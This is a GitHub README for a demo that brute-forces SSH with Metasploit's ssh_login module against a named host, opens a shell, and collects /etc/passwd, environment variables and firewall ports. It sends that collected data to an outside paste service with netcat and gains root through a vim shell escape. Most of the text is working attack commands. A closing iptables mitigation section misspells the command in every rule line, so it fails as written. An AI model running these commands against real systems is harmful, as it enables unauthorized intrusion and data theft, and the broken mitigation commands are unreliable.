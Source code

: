 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. *Note* this README and demo is still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt
    prinenv >> $HOSTNAME.txt
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
# privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
    
    
# Protecting a host from bruteforce
------------

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attackes after an excessive amount of attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 50 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an anisble playbook to create the above rule:
https://github.com/sillihkram/Bruteforcing-SSH/blob/main/mitigate-ssh-bruteforce.yaml

Now run the brute force exploit again and observe the behavior

    exploit

